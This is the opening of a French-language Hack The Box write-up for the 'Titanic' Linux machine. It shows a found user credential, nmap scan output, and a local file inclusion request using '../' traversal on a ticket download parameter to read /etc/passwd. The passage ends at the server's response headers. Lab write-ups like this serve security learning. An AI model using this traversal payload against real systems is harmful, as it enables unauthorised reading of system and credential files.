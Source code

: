            <td style="padding:8px; border:1px solid #ddd; text-align:center;">Linux</td>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">10.10.11.55</td>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">Easy</td>
          </tr>
        </tbody>
      </table>
    </td>
  </tr>
</table>

## Users
```bash
developer : `25282528`
```

## Enumeration

### nmap
```bash
┌──(kali㉿kali)-[~/htb/Titanic]
└─$ nmap -sC -sV -An -T4 -vvv -p- 10.10.11.55
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 73:03:9c:76:eb:04:f1:fe:c9:e9:80:44:9c:7f:13:46 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBGZG4yHYcDPrtn7U0l+ertBhGBgjIeH9vWnZcmqH0cvmCNvdcDY/ItR3tdB4yMJp0ZTth5itUVtlJJGHRYAZ8Wg=
|   256 d5:bd:1d:5e:9a:86:1c:eb:88:63:4d:5f:88:4b:7e:04 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDT1btWpkcbHWpNEEqICTtbAcQQitzOiPOmc3ZE0A69Z
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.52
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://titanic.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
```

## Foothold

### Website titanic.htb : LFI
On a un formulaire qu'on peut remplir pour reserver notre voyage. A la fin, ça nous fait telecharger un fichier .json avec notre ticket. Or, si on maniule cet argument ticket= on peut récupérer le contenu de n'importe quel fichier
```bash
GET /download?ticket=../../../../../../../../etc/passwd HTTP/1.1
Host: titanic.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i

-------------------------------

HTTP/1.1 200 OK
Date: Wed, 19 Feb 2025 12:47:55 GMT
Server: Werkzeug/3.0.3 Python/3.10.12
Content-Disposition: attachment; filename="../../../../../../../../etc/passwd"
Content-Type: application/octet-stream
Content-Length: 1951
```